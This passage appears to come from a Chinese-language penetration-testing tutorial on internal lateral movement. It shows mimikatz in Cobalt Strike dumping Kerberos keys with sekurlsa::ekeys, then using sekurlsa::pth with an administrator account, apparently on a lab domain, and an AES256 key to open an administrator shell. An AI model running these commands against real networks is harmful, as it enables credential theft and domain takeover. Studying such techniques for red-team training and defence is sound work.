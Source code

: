 在CobaltStrike中使用mimikatz列出当前存储的Kerberos加密密钥，获取`aes256_hmac`字段的值

```
mimikatz sekurlsa::ekeys
```

<img src="内网横向移动/image-20230901163618442.png" alt="image-20230901163618442" style="zoom:67%;" />	



执行如下命令传递密钥，随后目标主机会弹出administrator权限的cmd框

```
sekurlsa::pth /user:administrator/domain:hack.com
/aes256:b03fcae60f0b32a105a8082e89a09cd88a5a6c54b0a209caaa9664c6bc223232
```

![image-20230901163815210](内网横向移动/image-20230901163815210.png)
